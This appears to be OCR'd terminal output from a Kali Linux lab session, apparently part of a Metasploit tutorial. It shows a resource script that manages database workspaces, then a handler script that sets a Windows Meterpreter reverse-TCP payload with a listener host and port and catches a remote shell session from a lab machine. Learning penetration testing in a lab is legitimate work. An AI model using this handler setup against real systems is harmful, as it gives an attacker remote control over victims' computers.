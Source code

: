 ```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# vim db_status.rc
```

```
db_status
workspace
workspace -a Test
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# msfconsole -q -r db_status.rc
[*] Processing db_status.rc for ERB directives.
resource (db_status.rc)> db_status
[*] Connected to msf. Connection type: postgresql.
resource (db_status.rc)> workspace
  MS3_Nessus
  MSF3
  PTA
* default
resource (db_status.rc)> workspace -a Test
[*] Added workspace: Test
[*] Workspace: Test
msf6 > workspace
  MS3_Nessus
  MSF3
  PTA
  default
* Test
msf6 > workspace -d Test
[*] Deleted workspace: Test
[*] Switched to workspace: default
msf6 > exit
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# msfconsole -q                
msf6 > resource ~/payloads/Windows_Payloads/handler.rc
[*] Processing /root/payloads/Windows_Payloads/handler.rc for ERB directives.
resource (/root/payloads/Windows_Payloads/handler.rc)> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (/root/payloads/Windows_Payloads/handler.rc)> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource (/root/payloads/Windows_Payloads/handler.rc)> set LHOST 192.168.248.148
LHOST => 192.168.248.148
resource (/root/payloads/Windows_Payloads/handler.rc)> set LPORT 1234
LPORT => 1234
resource (/root/payloads/Windows_Payloads/handler.rc)> run

[*] Started reverse TCP handler on 192.168.248.148:1234 
[*] Sending stage (175686 bytes) to 192.168.248.150
[*] Meterpreter session 1 opened (192.168.248.148:1234 -> 192.168.248.150:49209) at 2023-01-22 09:19:00 -0500

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.248.150 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(multi/handler) > exit
```
